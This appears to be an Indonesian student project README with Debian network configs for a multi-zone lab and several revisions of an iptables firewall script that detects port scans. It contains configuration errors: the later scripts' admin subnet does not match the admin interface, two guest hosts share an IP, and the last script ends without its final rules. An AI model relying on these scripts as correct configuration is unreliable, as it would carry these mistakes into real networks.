# KJK-Final-Projek

# Router Debian


### Firewall (Debian)


Setup awal 

```
apt update
apt install iptables-persistent
```

Hasil Uji coba 

```
Setting up iptables-persistent (1.0.23) ...
root@Firewall:~# ip route show
default via 192.168.122.1 dev eth0 metric 2096
192.168.1.0/24 dev eth1 proto kernel scope link src 192.168.1.1
192.168.2.0/24 dev eth2 proto kernel scope link src 192.168.2.1
192.168.3.0/24 dev eth3 proto kernel scope link src 192.168.3.1
192.168.4.0/24 dev eth4 proto kernel scope link src 192.168.4.1
192.168.5.0/24 dev eth5 proto kernel scope link src 192.168.5.1
192.168.6.0/24 via 192.168.2.2 dev eth2
192.168.7.0/24 via 192.168.3.2 dev eth3
192.168.8.0/24 via 192.168.4.2 dev eth4
192.168.9.0/24 via 192.168.5.2 dev eth5
192.168.122.0/24 dev eth0 proto kernel scope link src 192.168.122.83
root@Firewall:~#
```


***


```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# DHCP config for eth0
auto eth0
iface eth0 inet dhcp
up echo nameserver 192.168.122.1 > /etc/resolv.conf

# Static config for eth1
auto eth1
iface eth1 inet static
	address 192.168.1.1
	netmask 255.255.255.0

# Static config for eth2
auto eth2
iface eth2 inet static
	address 192.168.2.1
	netmask 255.255.255.0


# Static config for eth3
auto eth3
iface eth3 inet static
	address 192.168.3.1
	netmask 255.255.255.0

# Static config for eth4
auto eth4
iface eth4 inet static
	address 192.168.4.1
	netmask 255.255.255.0


# Static config for eth5
auto eth5
iface eth5 inet static
	address 192.168.5.1
	netmask 255.255.255.0
```


***


### Router Mahasiswa

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.2.2
	netmask 255.255.255.0
	gateway 192.168.2.1
	up echo nameserver 192.168.122.1 > /etc/resolv.conf

# Static config for eth1
auto eth1
iface eth1 inet static
	address 192.168.6.1
	netmask 255.255.255.0
```

***

### Router Akademik

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.3.2
	netmask 255.255.255.0
	gateway 192.168.3.1
	up echo nameserver 192.168.122.1 > /etc/resolv.conf

# Static config for eth1
auto eth1
iface eth1 inet static
	address 192.168.7.1
	netmask 255.255.255.0
```

***

### Admin

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.1.2
	netmask 255.255.255.0
	gateway 192.168.1.1
	up echo nameserver 192.168.122.1 > /etc/resolv.conf

```


### Router riset

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.4.2
	netmask 255.255.255.0
	gateway 192.168.4.1
	up echo nameserver 192.168.122.1 > /etc/resolv.conf


# Static config for eth1
auto eth1
iface eth1 inet static
	address 192.168.8.1
	netmask 255.255.255.0
```

***

### Router Guest

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.5.2
	netmask 255.255.255.0
	gateway 192.168.5.1
	up echo nameserver 192.168.122.1 > /etc/resolv.conf


# Static config for eth1
auto eth1
iface eth1 inet static
	address 192.168.9.1
	netmask 255.255.255.0
```

***

# Client


### MHS 1

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.6.2
        netmask 255.255.255.0
	gateway 192.168.6.1
	up echo nameserver 192.168.122.1 > /etc/resolv.conf

```


### MHS 2

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.6.3
        netmask 255.255.255.0
	gateway 192.168.6.1
        up echo nameserver 192.168.122.1 > /etc/resolv.conf

```


### Akademik 1

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.7.2
	netmask 255.255.255.0
	gateway 192.168.7.1
	up echo nameserver 192.168.122.1 > /etc/resolv.conf


```


### Akademik 2

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.7.3
	netmask 255.255.255.0
	gateway 192.168.7.1
	up echo nameserver 192.168.122.1 > /etc/resolv.conf

```


### Riset 1

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.8.2
	netmask 255.255.255.0
	gateway 192.168.8.1
	up echo nameserver 192.168.122.1 > /etc/resolv.conf
```


### Riset 2

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.8.3
	netmask 255.255.255.0
	gateway 192.168.8.1
	up echo nameserver 192.168.122.1 > /etc/resolv.conf
```


### Guest 1

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.9.2
	netmask 255.255.255.0
	gateway 192.168.9.1
	up echo nameserver 192.168.122.1 > /etc/resolv.conf
```


### Guest 2

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.9.2
	netmask 255.255.255.0
	gateway 192.168.9.1
	up echo nameserver 192.168.122.1 > /etc/resolv.conf
```


### Bandit 1

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*


# DHCP config for eth0
auto eth0
iface eth0 inet dhcp
	up echo nameserver 192.168.0.1 > /etc/resolv.conf

```


### Bandit 2

```
#
# This is a sample network config, please uncomment lines to configure the network
#

# Uncomment this line to load custom interface files
# source /etc/network/interfaces.d/*

# Static config for eth0
auto eth0
iface eth0 inet static
	address 192.168.6.3
        netmask 255.255.255.0
	gateway 192.168.6.1
        up echo nameserver 192.168.122.1 > /etc/resolv.conf
```

***

# Scripting


### Firewall Rev-3 (Mahasiswa bisa ping hanya daerah lab, gunakan ini dulu stable)

```
#!/bin/bash
set -euo pipefail

# ================== Interface & Subnet (192.168.x.x) ==================
WAN_IF="eth0"
ADM_IF="eth1"; ADM_NET="192.168.1.0/24"
MHS_IF="eth2"; MHS_NET="192.168.2.0/24"
AKD_IF="eth3"; AKD_NET="192.168.3.0/24"
RST_IF="eth4"; RST_NET="192.168.4.0/24"
GST_IF="eth5"; GST_NET="192.168.5.0/24"

# LAB host spesifik (hanya 192.168.8.4)
LAB_HOST="192.168.8.4"  # Riset3 sebagai Lab
BLOCKED_HOSTS="192.168.8.2,192.168.8.3"  # Host yang diblokir untuk Mahasiswa

# Service ports
WEB_PORTS="80,443"
DNS_PORT=53
LAB_PORTS="22,80,443"  # SSH, HTTP, HTTPS untuk lab access

# ================== Sistem & Reset ==================
echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -t nat -F; iptables -t mangle -F; iptables -F; iptables -X
iptables -P INPUT DROP; iptables -P FORWARD DROP; iptables -P OUTPUT ACCEPT

# ================== Chains utilitas ==================
iptables -N LOG_DROP
iptables -A LOG_DROP -m limit --limit 5/min -j LOG --log-prefix "DROP " --log-level 4
iptables -A LOG_DROP -j DROP

# ================== Basic hygiene ==================
iptables -A INPUT -i lo -j ACCEPT
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A INPUT -m state --state INVALID -j LOG --log-prefix "INVALID " --log-level 4
iptables -A INPUT -m state --state INVALID -j DROP
iptables -A FORWARD -m state --state INVALID -j DROP

# ================== Anti-spoofing ==================
for NET in 192.168.0.0/16 10.0.0.0/8 172.16.0.0/12 127.0.0.0/8 169.254.0.0/16 224.0.0.0/4; do
  iptables -A INPUT -i "$WAN_IF" -s "$NET" -j LOG --log-prefix "SPOOF WAN " --log-level 4
  iptables -A INPUT -i "$WAN_IF" -s "$NET" -j DROP
  iptables -A FORWARD -i "$WAN_IF" -s "$NET" -j DROP
done

# Lateral anti-spoof
iptables -A INPUT -i "$ADM_IF" -s "$ADM_NET" -j ACCEPT
iptables -A INPUT -i "$ADM_IF" ! -s "$ADM_NET" -j DROP
iptables -A INPUT -i "$MHS_IF" -s "$MHS_NET" -j ACCEPT
iptables -A INPUT -i "$MHS_IF" ! -s "$MHS_NET" -j DROP
iptables -A INPUT -i "$AKD_IF" -s "$AKD_NET" -j ACCEPT
iptables -A INPUT -i "$AKD_IF" ! -s "$AKD_NET" -j DROP
iptables -A INPUT -i "$RST_IF" -s "$RST_NET" -j ACCEPT
iptables -A INPUT -i "$RST_IF" ! -s "$RST_NET" -j DROP
iptables -A INPUT -i "$GST_IF" -s "$GST_NET" -j ACCEPT
iptables -A INPUT -i "$GST_IF" ! -s "$GST_NET" -j DROP

# ================== NAT Masquerading ==================
iptables -t nat -A POSTROUTING -o "$WAN_IF" -j MASQUERADE

# ================== ICMP FIX: Outbound & Reply ==================
# Izinkan ICMP outbound dari SEMUA zona internal ke WAN
iptables -A FORWARD -i "$ADM_IF" -o "$WAN_IF" -p icmp --icmp-type echo-request -j ACCEPT
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p icmp --icmp-type echo-request -j ACCEPT
iptables -A FORWARD -i "$AKD_IF" -o "$WAN_IF" -p icmp --icmp-type echo-request -j ACCEPT
iptables -A FORWARD -i "$RST_IF" -o "$WAN_IF" -p icmp --icmp-type echo-request -j ACCEPT
iptables -A FORWARD -i "$GST_IF" -o "$WAN_IF" -p icmp --icmp-type echo-request -j ACCEPT

# Izinkan ICMP reply kembali
iptables -A FORWARD -i "$WAN_IF" -o "$ADM_IF" -p icmp --icmp-type echo-reply -j ACCEPT
iptables -A FORWARD -i "$WAN_IF" -o "$MHS_IF" -p icmp --icmp-type echo-reply -j ACCEPT
iptables -A FORWARD -i "$WAN_IF" -o "$AKD_IF" -p icmp --icmp-type echo-reply -j ACCEPT
iptables -A FORWARD -i "$WAN_IF" -o "$RST_IF" -p icmp --icmp-type echo-reply -j ACCEPT
iptables -A FORWARD -i "$WAN_IF" -o "$GST_IF" -p icmp --icmp-type echo-reply -j ACCEPT

# Rate limit ICMP ke firewall
iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/second --limit-burst 5 -j ACCEPT
iptables -A INPUT -p icmp --icmp-type echo-request -j DROP

# ================== KEBIJAKAN LAB (Riset3) - HOST SPECIFIC ==================

# BLOKIR Mahasiswa -> 192.168.8.2 dan 192.168.8.3
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d 192.168.8.2 -j LOG --log-prefix "MHS->RIS2 BLOCK: " --log-level 4
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d 192.168.8.2 -j DROP
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d 192.168.8.3 -j LOG --log-prefix "MHS->RIS3 BLOCK: " --log-level 4
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d 192.168.8.3 -j DROP

# IZINKAN Mahasiswa -> Lab 192.168.8.4 (LIMITED: SSH, HTTP, HTTPS, Ping)
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d "$LAB_HOST" -p tcp -m multiport --dports $LAB_PORTS -j ACCEPT
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d "$LAB_HOST" -p icmp --icmp-type echo-request -j ACCEPT

# AKADEMIK -> Lab (FULL access) - diatur di bawah via AKADEMIK->Riset
# ADMIN -> Lab (FULL access) - diatur di bawah via ADMIN->all

# ================== KEBIJAKAN ZONA LAIN (TETAP SAMA) ==================

# ADMIN -> semua
iptables -A FORWARD -i "$ADM_IF" -j ACCEPT

# MAHASISWA -> Internet (HTTP/HTTPS/DNS)
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p tcp -m multiport --dports $WEB_PORTS -j ACCEPT
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p udp --dport $DNS_PORT -j ACCEPT
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p tcp --dport $DNS_PORT -j ACCEPT

# AKADEMIK -> Internet (full)
iptables -A FORWARD -i "$AKD_IF" -o "$WAN_IF" -j ACCEPT

# AKADEMIK -> Riset (full)
iptables -A FORWARD -i "$AKD_IF" -o "$RST_IF" -j ACCEPT

# RISET/IoT -> Internet (HTTPS+DNS)
iptables -A FORWARD -i "$RST_IF" -o "$WAN_IF" -p tcp --dport 443 -j ACCEPT
iptables -A FORWARD -i "$RST_IF" -o "$WAN_IF" -p udp --dport $DNS_PORT -j ACCEPT
iptables -A FORWARD -i "$RST_IF" -o "$WAN_IF" -p tcp --dport $DNS_PORT -j ACCEPT

# RISET/IoT -> Admin (monitoring)
iptables -A FORWARD -i "$RST_IF" -o "$ADM_IF" -p udp --dport 514 -j ACCEPT
iptables -A FORWARD -i "$RST_IF" -o "$ADM_IF" -p tcp -m multiport --dports 9100,9200,5601 -j ACCEPT

# RISET/IoT -> Akademik (full)
iptables -A FORWARD -i "$RST_IF" -o "$AKD_IF" -j ACCEPT

# GUEST -> Internet (HTTP/HTTPS/DNS)
iptables -A FORWARD -i "$GST_IF" -o "$WAN_IF" -p tcp -m multiport --dports $WEB_PORTS -j ACCEPT
iptables -A FORWARD -i "$GST_IF" -o "$WAN_IF" -p udp --dport $DNS_PORT -j ACCEPT
iptables -A FORWARD -i "$GST_IF" -o "$WAN_IF" -p tcp --dport $DNS_PORT -j ACCEPT

# SSH brute-force protection
iptables -N SSHSCAN
iptables -A INPUT -i "$ADM_IF" -p tcp --dport 22 -m state --state NEW -j SSHSCAN
iptables -A SSHSCAN -m recent --set --name SSH --rsource
iptables -A SSHSCAN -m recent --update --seconds 60 --hitcount 4 --name SSH --rsource -j LOG --log-prefix "SSH BRUTE " --log-level 6
iptables -A SSHSCAN -m recent --update --seconds 60 --hitcount 4 --name SSH --rsource -j DROP
iptables -A INPUT -i "$ADM_IF" -p tcp --dport 22 -j ACCEPT

# ================== Logging drops ==================
iptables -A INPUT -j LOG_DROP
iptables -A FORWARD -j LOG_DROP

echo "Firewall zone-based with Lab access (Riset3) activated."
```


## Firewall Final Script (Sudah solve kendala Lab,Admin, Akademik,best practice reject yang tidak ada akses)

```
#!/bin/bash
set -euo pipefail

# ================== KONFIGURASI UTAMA ==================
WAN_IF="eth0"
ADM_IF="eth1"; ADM_NET="192.168.10.0/24"
MHS_IF="eth2"; MHS_NET="192.168.2.0/24"
AKD_IF="eth3"; AKD_NET="192.168.3.0/24"
RST_IF="eth4"; RST_NET="192.168.4.0/24"
GST_IF="eth5"; GST_NET="192.168.5.0/24"

# Definisi Ports
WEB_PORTS="80,443"
DNS_PORT="53"
LAB_PORTS="22,80,443"
LAB_HOST="192.168.8.4"

# ================== 1. SYSTEM TUNING & RESET ==================
log_step() { echo "[$(date '+%T')] $1"; }
check_interface() { 
    if ! ip link show "$1" &>/dev/null; then 
        echo "ERR: Interface $1 not found"
        exit 1
    fi 
}

log_step "Validasi Interfaces..."
for iface in "$WAN_IF" "$ADM_IF" "$MHS_IF" "$AKD_IF" "$RST_IF" "$GST_IF"; do 
    check_interface "$iface"
done

log_step "Reset Firewall & Tuning Kernel..."
iptables -t nat -F; iptables -t mangle -F; iptables -F; iptables -X

# Aktifkan Forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# [FIX ROBUST] Matikan rp_filter (Anti-Martian) dengan aman
# Menggunakan 'find' agar tidak error jika file tidak ditemukan di path tertentu
find /proc/sys/net/ipv4/conf/ -name rp_filter -exec sh -c 'echo 0 > {}' \; 2>/dev/null || true

# Bersihkan cache routing
ip route flush cache

# Kebijakan Default (Whitelist Approach)
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -P OUTPUT ACCEPT

# ================== 2. SMART LOGGING CHAINS ==================
log_step "Membangun Chain Deteksi..."

# Chain: LOG & DROP (Untuk Serangan/Malicious)
iptables -N LOG_ATTACK
iptables -A LOG_ATTACK -m limit --limit 10/min -j LOG --log-prefix "[FW-ATTACK] " --log-level 4
iptables -A LOG_ATTACK -j DROP

# Chain: LOG & REJECT (Untuk Pelanggaran Kebijakan Internal)
iptables -N LOG_REJECT
iptables -A LOG_REJECT -m limit --limit 10/min -j LOG --log-prefix "[FW-REJECT] " --log-level 4
iptables -A LOG_REJECT -p tcp -j REJECT --reject-with tcp-reset
iptables -A LOG_REJECT -j REJECT --reject-with icmp-port-unreachable

# Chain: SILENT DROP (Untuk Sampah Internet)
iptables -N SILENT_DROP
iptables -A SILENT_DROP -j DROP

# ================== 3. IDS (INTRUSION DETECTION SYSTEM) ==================
# Diletakkan paling atas untuk menangkap pola serangan sebelum diproses

# 1. Deteksi NULL Scan
iptables -A INPUT -p tcp --tcp-flags ALL NONE -j LOG_ATTACK
iptables -A FORWARD -p tcp --tcp-flags ALL NONE -j LOG_ATTACK

# 2. Deteksi XMAS Scan (IMPROVED: Flag sesuai standar Nmap -sX)
iptables -A INPUT -p tcp --tcp-flags ALL FIN,PSH,URG -j LOG_ATTACK
iptables -A FORWARD -p tcp --tcp-flags ALL FIN,PSH,URG -j LOG_ATTACK

# 3. Deteksi SYN-FIN (Anomali)
iptables -A INPUT -p tcp --tcp-flags SYN,FIN SYN,FIN -j LOG_ATTACK
iptables -A FORWARD -p tcp --tcp-flags SYN,FIN SYN,FIN -j LOG_ATTACK

# 4. Deteksi Paket INVALID (Log dulu baru Drop)
iptables -A INPUT -m state --state INVALID -j LOG --log-prefix "[FW-INVALID] " --log-level 4
iptables -A FORWARD -m state --state INVALID -j LOG --log-prefix "[FW-INVALID] " --log-level 4
iptables -A INPUT -m state --state INVALID -j DROP
iptables -A FORWARD -m state --state INVALID -j DROP

# ================== 4. BASIC RULES ==================
iptables -A INPUT -i lo -j ACCEPT
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT

# ================== 5. NAT & ANTI-SPOOFING ==================
iptables -t nat -A POSTROUTING -o "$WAN_IF" -j MASQUERADE

# Anti-Spoofing WAN (Hanya Bogons, IP Private diizinkan untuk Lab)
for NET in 127.0.0.0/8 224.0.0.0/4; do
    iptables -A INPUT -i "$WAN_IF" -s "$NET" -j SILENT_DROP
    iptables -A FORWARD -i "$WAN_IF" -s "$NET" -j SILENT_DROP
done

# Anti-Spoofing LAN (Memastikan source IP sesuai interface)
for iface in "$ADM_IF" "$MHS_IF" "$AKD_IF" "$RST_IF" "$GST_IF"; do
    case "$iface" in
        "$ADM_IF") NET="$ADM_NET" ;; "$MHS_IF") NET="$MHS_NET" ;;
        "$AKD_IF") NET="$AKD_NET" ;; "$RST_IF") NET="$RST_NET" ;;
        "$GST_IF") NET="$GST_NET" ;;
    esac
    iptables -A FORWARD -i "$iface" ! -s "$NET" -j LOG --log-prefix "[FW-SPOOF] " --log-level 4
    iptables -A FORWARD -i "$iface" ! -s "$NET" -j DROP
done

# ================== 6. ICMP CONTROL ==================
# Izinkan Ping (Rate limited untuk flood protection)
iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 5/sec -j ACCEPT
iptables -A FORWARD -p icmp --icmp-type echo-request -j ACCEPT
iptables -A FORWARD -p icmp --icmp-type echo-reply -j ACCEPT

# ================== 7. KEBIJAKAN ZONA (ZBF RULES) ==================
log_step "Menerapkan Kebijakan Zona..."

# --- ZONA ADMIN (Trusted) ---
iptables -A INPUT -i "$ADM_IF" -j ACCEPT
iptables -A FORWARD -i "$ADM_IF" -j ACCEPT

# --- ZONA MAHASISWA ---
# 1. Blokir Spesifik ke Server Penting (Riset 2 & 3)
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d 192.168.8.2 -j LOG_REJECT
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d 192.168.8.3 -j LOG_REJECT
# 2. Izinkan ke Lab Host (Terbatas Port)
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d "$LAB_HOST" -p tcp -m multiport --dports "$LAB_PORTS" -j ACCEPT
# 3. Izinkan ke Internet
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p tcp -m multiport --dports "$WEB_PORTS" -j ACCEPT
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p udp --dport "$DNS_PORT" -j ACCEPT
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p tcp --dport "$DNS_PORT" -j ACCEPT

# --- ZONA AKADEMIK ---
iptables -A FORWARD -i "$AKD_IF" -o "$WAN_IF" -j ACCEPT
iptables -A FORWARD -i "$AKD_IF" -o "$RST_IF" -j ACCEPT

# --- ZONA RISET ---
iptables -A FORWARD -i "$RST_IF" -o "$WAN_IF" -p tcp -m multiport --dports "$WEB_PORTS" -j ACCEPT
iptables -A FORWARD -i "$RST_IF" -o "$WAN_IF" -p udp --dport "$DNS_PORT" -j ACCEPT
iptables -A FORWARD -i "$RST_IF" -o "$ADM_IF" -p tcp -m multiport --dports 514,9200 -j ACCEPT

# --- ZONA GUEST ---
iptables -A FORWARD -i "$GST_IF" -o "$WAN_IF" -p tcp -m multiport --dports "$WEB_PORTS" -j ACCEPT
iptables -A FORWARD -i "$GST_IF" -o "$WAN_IF" -p udp --dport "$DNS_PORT" -j ACCEPT

# ================== 8. SECURITY & CLEANUP ==================
# SSH Protection (Hanya Admin yang boleh akses Firewall)
iptables -A INPUT -i "$ADM_IF" -p tcp --dport 22 -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j LOG_ATTACK

# Final Cleanup (Tangkap semua yang tidak lolos aturan di atas)
# Jika dari WAN -> Drop diam-diam
iptables -A INPUT -i "$WAN_IF" -j SILENT_DROP
# Jika dari LAN -> Reject dengan sopan
iptables -A INPUT -j LOG_REJECT
iptables -A FORWARD -j LOG_REJECT

log_step "Firewall IDS Mode Aktif & Siap Tempur."
exit 0
```


### Final Script (DROP ubah ke REJECT)

```shellscript
#!/bin/bash
set -euo pipefail

# ================== KONFIGURASI UTAMA ==================
WAN_IF="eth0"
ADM_IF="eth1"; ADM_NET="192.168.10.0/24"
MHS_IF="eth2"; MHS_NET="192.168.2.0/24"
AKD_IF="eth3"; AKD_NET="192.168.3.0/24"
RST_IF="eth4"; RST_NET="192.168.4.0/24"
GST_IF="eth5"; GST_NET="192.168.5.0/24"

# Ports
WEB_PORTS="80,443"
DNS_PORT="53"
LAB_PORTS="22,80,443"
LAB_HOST="192.168.8.4"

# ================== 1. SYSTEM TUNING ==================
log_step() { echo "[$(date '+%T')] $1"; }
check_interface() { if ! ip link show "$1" &>/dev/null; then echo "ERR: $1 not found"; exit 1; fi; }

log_step "Validasi Interfaces..."
for iface in "$WAN_IF" "$ADM_IF" "$MHS_IF" "$AKD_IF" "$RST_IF" "$GST_IF"; do check_interface "$iface"; done

iptables -t nat -F; iptables -t mangle -F; iptables -F; iptables -X
echo 1 > /proc/sys/net/ipv4/ip_forward
find /proc/sys/net/ipv4/conf/ -name rp_filter -exec sh -c 'echo 0 > {}' \; 2>/dev/null || true
ip route flush cache

# DEFAULT POLICY: DROP SEMUA
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -P OUTPUT ACCEPT

# ================== 2. LOGGING CHAINS ==================
# Chain: LOG & DROP (Malicious)
iptables -N LOG_ATTACK
iptables -A LOG_ATTACK -m limit --limit 10/min -j LOG --log-prefix "[FW-ATTACK] " --log-level 4
iptables -A LOG_ATTACK -j DROP

# Chain: LOG & REJECT (Policy Violation)
iptables -N LOG_REJECT
iptables -A LOG_REJECT -m limit --limit 10/min -j LOG --log-prefix "[FW-REJECT] " --log-level 4
iptables -A LOG_REJECT -p tcp -j REJECT --reject-with tcp-reset
iptables -A LOG_REJECT -j REJECT --reject-with icmp-port-unreachable

# Chain: SILENT DROP (Stealth)
iptables -N SILENT_DROP
iptables -A SILENT_DROP -j DROP

# ================== 3. IDS (DETEKSI SERANGAN) ==================
# Rules ini tetap sama (Nmap NULL, Xmas, SYN-FIN, Invalid)
iptables -A INPUT -p tcp --tcp-flags ALL NONE -j LOG_ATTACK
iptables -A FORWARD -p tcp --tcp-flags ALL NONE -j LOG_ATTACK
iptables -A INPUT -p tcp --tcp-flags ALL FIN,PSH,URG -j LOG_ATTACK
iptables -A FORWARD -p tcp --tcp-flags ALL FIN,PSH,URG -j LOG_ATTACK
iptables -A INPUT -p tcp --tcp-flags SYN,FIN SYN,FIN -j LOG_ATTACK
iptables -A FORWARD -p tcp --tcp-flags SYN,FIN SYN,FIN -j LOG_ATTACK
iptables -A INPUT -m state --state INVALID -j LOG --log-prefix "[FW-INVALID] " --log-level 4
iptables -A FORWARD -m state --state INVALID -j LOG --log-prefix "[FW-INVALID] " --log-level 4
iptables -A INPUT -m state --state INVALID -j DROP
iptables -A FORWARD -m state --state INVALID -j DROP

# ================== 4. BASIC RULES ==================
iptables -A INPUT -i lo -j ACCEPT
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT

# ================== 5. NAT & ANTI-SPOOFING ==================
iptables -t nat -A POSTROUTING -o "$WAN_IF" -j MASQUERADE

# Anti-Spoofing WAN (Hanya Bogons)
for NET in 127.0.0.0/8 224.0.0.0/4; do
    iptables -A INPUT -i "$WAN_IF" -s "$NET" -j SILENT_DROP
    iptables -A FORWARD -i "$WAN_IF" -s "$NET" -j SILENT_DROP
done

# Anti-Spoofing LAN
for iface in "$ADM_IF" "$MHS_IF" "$AKD_IF" "$RST_IF" "$GST_IF"; do
    case "$iface" in
        "$ADM_IF") NET="$ADM_NET" ;; "$MHS_IF") NET="$MHS_NET" ;;
        "$AKD_IF") NET="$AKD_NET" ;; "$RST_IF") NET="$RST_NET" ;;
        "$GST_IF") NET="$GST_NET" ;;
    esac
    iptables -A FORWARD -i "$iface" ! -s "$NET" -j LOG --log-prefix "[FW-SPOOF] " --log-level 4
    iptables -A FORWARD -i "$iface" ! -s "$NET" -j DROP
done

# ================== 6. ICMP CONTROL (STRICT MODE) ==================
# PERBAIKAN UTAMA ADA DI SINI:
# 1. HAPUS "Allow All Echo Request"
# 2. HANYA izinkan Ping ke Internet (Output Interface = WAN)
iptables -A FORWARD -o "$WAN_IF" -p icmp --icmp-type echo-request -j ACCEPT

# 3. Izinkan Ping Reply (Wajib agar ping berhasil)
iptables -A FORWARD -p icmp --icmp-type echo-reply -j ACCEPT
iptables -A FORWARD -p icmp --icmp-type destination-unreachable -j ACCEPT

# 4. Limit Ping ke Firewall Sendiri (Input)
iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 5/sec -j ACCEPT

# ================== 7. KEBIJAKAN ZONA (ZBF) ==================

# --- ZONA ADMIN (Full Access) ---
# Admin boleh ke mana saja, TERMASUK Ping ke Internal (Override aturan ICMP di atas)
iptables -A INPUT -i "$ADM_IF" -j ACCEPT
iptables -A FORWARD -i "$ADM_IF" -j ACCEPT

# --- ZONA MAHASISWA ---
# Blokir ke Riset 2 & 3 (Eksplisit)
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d 192.168.8.2 -j LOG_REJECT
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d 192.168.8.3 -j LOG_REJECT
# Akses ke Lab Host (TCP & Ping)
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d "$LAB_HOST" -p tcp -m multiport --dports "$LAB_PORTS" -j ACCEPT
iptables -A FORWARD -i "$MHS_IF" -o "$RST_IF" -d "$LAB_HOST" -p icmp --icmp-type echo-request -j ACCEPT
# Akses Internet
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p tcp -m multiport --dports "$WEB_PORTS" -j ACCEPT
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p udp --dport "$DNS_PORT" -j ACCEPT
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p tcp --dport "$DNS_PORT" -j ACCEPT
# (Ping ke Internet sudah dihandle di Section 6)

# --- ZONA AKADEMIK ---
iptables -A FORWARD -i "$AKD_IF" -o "$WAN_IF" -j ACCEPT
iptables -A FORWARD -i "$AKD_IF" -o "$RST_IF" -j ACCEPT

# --- ZONA RISET ---
iptables -A FORWARD -i "$RST_IF" -o "$WAN_IF" -p tcp -m multiport --dports "$WEB_PORTS" -j ACCEPT
iptables -A FORWARD -i "$RST_IF" -o "$WAN_IF" -p udp --dport "$DNS_PORT" -j ACCEPT
iptables -A FORWARD -i "$RST_IF" -o "$ADM_IF" -p tcp -m multiport --dports 514,9200 -j ACCEPT

# --- ZONA GUEST ---
iptables -A FORWARD -i "$GST_IF" -o "$WAN_IF" -p tcp -m multiport --dports "$WEB_PORTS" -j ACCEPT
iptables -A FORWARD -i "$GST_IF" -o "$WAN_IF" -p udp --dport "$DNS_PORT" -j ACCEPT
# PERHATIKAN: Tidak ada izin Ping ke Internal sama sekali.

